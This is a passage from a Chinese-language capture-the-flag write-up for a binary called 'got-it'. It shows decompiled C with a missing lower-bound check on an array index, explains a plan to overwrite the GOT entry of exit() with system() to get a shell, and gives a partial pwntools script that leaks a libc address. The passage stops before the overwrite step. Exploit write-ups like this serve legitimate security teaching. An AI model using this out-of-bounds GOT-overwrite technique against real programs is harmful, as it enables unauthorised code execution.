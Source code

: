 ```c
            break;
          case 2:
            show();
            break;
        }
      }
    }
  }
  trick();
}
```

可以看出，这一题是一个简单的管理系统，输入 1 可以写入数据，2 可以查看数据，8227（0x2023）可以执行 `trick()` 函数。

```c
int show()
{
  int result; // eax
  int v1; // [rsp+Ch] [rbp-4h] BYREF

  printf("Input student id: ");
  __isoc99_scanf("%d", &v1);
  if ( v1 <= 15 )
    result = printf("Student name: %s\n", &list[8 * v1]);
  else
    result = puts("Invalid id!");
  return result;
}
int add()
{
  int v1; // [rsp+Ch] [rbp-4h] BYREF

  printf("Input student id: ");
  __isoc99_scanf("%d", &v1);
  if ( v1 > 15 )
    return puts("Invalid id!");
  printf("Input student name: ");
  return read(0, (char *)&list + 8 * v1, 8uLL);
}
void __noreturn trick()
{
  exit((int)"/bin/sh");
}
```

仔细观察，发现 `show()` 和 `add()` 均只对 id 的最大值进行了限制，没有对最小值进行限制。list 位于 .bss 段，可以通过写入负数来访问 got 表。`trick()` 中的 `exit()` 函数已经给定了 `/bin/sh` 参数，如果我们可以把 `exit()` 劫持成 `system()` 函数，即可得到权限。

```python
from pwn import *

context(os='linux', arch='amd64')

elf = ELF('./got-it')
libc = ELF('./libc.so.6')

io = process('./got-it')

io.recvuntil('>> ')
io.sendline('2')
io.recvuntil('id: ')
# show 泄漏 got 表
io.sendline(str(int((elf.got.puts-elf.sym.list)/8)))
io.recvuntil('name: ')
libc.address = u64(io.recvline()[:-1].ljust(8, b'\0'))-libc.sym.puts
```